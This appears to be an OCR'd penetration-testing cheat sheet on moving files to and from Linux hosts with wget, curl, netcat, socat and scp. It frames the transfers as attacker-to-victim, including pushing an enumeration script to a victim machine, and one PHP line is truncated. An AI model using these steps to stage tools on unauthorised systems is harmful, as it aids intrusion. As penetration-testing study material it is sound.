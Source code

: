 ## Linux File Transfer

Wget

- wget 192.168.1.102:9999/file.txt

- Curl

curl -O http://192.168.0.101/file.txt

- Netcat

On attacking machine:
nc -lvp 4444 < file

On target machine:
nc 192.168.1.102 4444 > file

So on the victim-machine we run nc like this:
nc -lvp 3333 > enum.sh

And on the attacking machine we send the file like this:
nc 192.168.1.103 < enum.sh

I have sometimes received this error:
This is nc from the netcat-openbsd package. An alternative nc is available

I have just run this command instead:
nc -l 1234 > file.sh

- Socat
Server receiving file:
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
Server sending file:
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

With php
echo "" > down2.php

- SCP
Now we can copy files to a machine using scp
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
